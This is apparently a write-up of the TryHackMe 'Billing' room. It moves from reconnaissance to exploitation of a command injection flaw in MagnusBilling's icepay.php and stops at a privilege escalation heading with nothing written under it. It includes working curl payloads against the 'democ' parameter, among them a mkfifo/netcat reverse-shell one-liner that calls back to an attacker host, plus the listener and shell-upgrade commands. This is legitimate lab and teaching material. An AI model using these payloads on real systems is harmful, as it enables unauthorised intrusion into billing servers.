


<table>
  <tr>
    <td>
      
    </td>
    <td width="900">
      <h1>Billing — Write-up</h1>
      <p>Some mistakes can be costly.</p>
      <p><strong>Difficulty:</strong> Easy 🟢</p>
       &nbsp;
       &nbsp;
      
    </td>
  </tr>
</table>

https://tryhackme.com/room/billing

---

Gain a shell, find the way and escalate your privileges!<br>

1. What is user.txt?

2. What is root.txt?

> Note: Bruteforcing is out of scope for this room.

## 🕵 Phase 1: Reconnaissance


#### Nmap Scanning
The engagement began with a comprehensive Nmap scan to identify open ports and services running on the target host:

```bash
└─$ nmap -n -Pn -T4 -p- -sV -sC 10.66.186.106
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 93:dd:45:55:81:ea:48:a5:82:d0:a0:6c:e3:2b:b6:2a (ECDSA)
|_  256 f2:cd:6b:4e:da:f2:ec:39:18:87:3e:5d:98:3c:93:cf (ED25519)
80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://10.66.186.106/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#### What are we looking at?
Essentially, this server is a complete telephony hub. It’s an "all-in-one" system designed to manage VoIP calls and billing from a single place.<br>
We have Asterisk doing the heavy lifting for the phone services behind the scenes, MagnusBilling acting as the front-end for administrators to manage accounts and credits, and a MariaDB database holding everything together in the background. It’s a well-updated Debian machine, likely serving as the backbone for a communication provider's operations.

---
Let's visit the homepage through the browser and see what's there.<br>
The system automatically redirects to the MagnusBilling application, though no specific version is displayed.



**Source Code Analysis:** Bootstrapping Process
"To begin the reconnaissance, I analyzed the initial HTML source code to identify how the application initializes its environment. I pinpointed the 'Microloader' script, which serves as the entry point for the ExtJS framework and is responsible for loading the application's configuration and metadata into memory."

```bash
 </script>
        <script data-app="66fb43d2-c53a-4317-ab77-8188ac019a5b" id="microloader" type="text/javascript">
            var Ext=Ext||{};Ext.manifest=Ext.manifest||"blue-neptune.json";Ext=Ext||{};....
```

After identifying the microloader script and the Ext.manifest reference in the static source code, I decided to verify how these components were being interpreted in real-time. Let's take a look at what the browser tells us about that. > By switching to the developer console and querying the live object, I was able to confirm the application's metadata directly from memory.

#### Revealed the app version >>> name: "MBilling", version: "6.0.0.0"



#### Searching for known vulnerabilities.

```text
Description
A Command Injection vulnerability in MagnusBilling application 6.x and 7.x allows
remote attackers to run arbitrary commands via unauthenticated HTTP request.
A piece of demonstration code is present in `lib/icepay/icepay.php`, with a call to an exec().
The parameter to exec() includes the GET parameter `democ`, which is controlled by the user and
not properly sanitised/escaped.
After successful exploitation, an unauthenticated user is able to execute arbitrary OS commands.
The commands run with the privileges of the web server process, typically `www-data` or `asterisk`.
At a minimum, this allows an attacker to compromise the billing system and its database.

The following MagnusBilling applications are vulnerable:
- MagnusBilling application version 6 (all versions);
- MagnusBilling application up to version 7.x without commit 7af21ed620 which fixes this vulnerability;
```

### Proof of Concept: Endpoint Validation

Here we can assume that the file exists but does not return a response, meaning it is blind.

```bash
└─$ curl http://10.66.186.106/mbilling/lib/icepay/icepay.php?democ=echo%20%22test%22 -I
HTTP/1.1 200 OK
Date: Sat, 03 Jan 2026 19:11:56 GMT
Server: Apache/2.4.62 (Debian)
Content-Type: text/html; charset=UTF-8
```

Let's use a sleep.

```bash
└─$ time curl -s 'http://10.66.186.106/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'

real    0m5,328s
user    0m0,011s
sys     0m0,005s
```
***Breaking down the payload***

To make this work, I structured the command to do a few specific things:<br>
Timing the response: I used the time command at the start to measure exactly how long the server takes to answer. This is my 'stopwatch'.<br>
The Semicolon trick: By using semicolons (;), I'm telling the server: 'Stop whatever you’re doing and run my command next.' The quotes around the URL ensure my own terminal doesn't get confused by these special characters.<br>
Safety net: I added a second semicolon at the very end to 'cancel out' any other code that might exist on the server's side, making sure my sleep command runs cleanly without errors.<br>
> The result? A 5-second delay that proves the server is doing exactly what I tell it to do."

#### Now ready to try a reverse shell.

```bash
└─$ curl -s -G 'http://10.66.186.106/mbilling/lib/icepay/icepay.php' --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc  <attacker_ip> 443 > /tmp/f;'
```

```bash
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.130.186] from (UNKNOWN) [10.66.186.106] 43828
sh: 0: can't access tty; job control turned off
$ 
```
#### searching for the user flag

```bash
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.130.186] from (UNKNOWN) [10.66.186.106] 43828
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
asterisk@ip-10-66-186-106:/var/www/html/mbilling/lib/icepay$ export TERM=xterm
<var/www/html/mbilling/lib/icepay$ export TERM=xterm         
asterisk@ip-10-66-186-106:/var/www/html/mbilling/lib/icepay$ ^Z
[1]+  Parado                     nc -lvnp 443

└─$ stty raw -echo; fg
nc -lvnp 443
                       
asterisk@ip-10-66-186-106:/var/www/html/mbilling/lib/icepay$ cd /home/magnus
asterisk@ip-10-66-186-106:/home/magnus$ cat user.txt
THM{[redacted]}
```
---
---
### Privilege escalation, looking for a root flag.


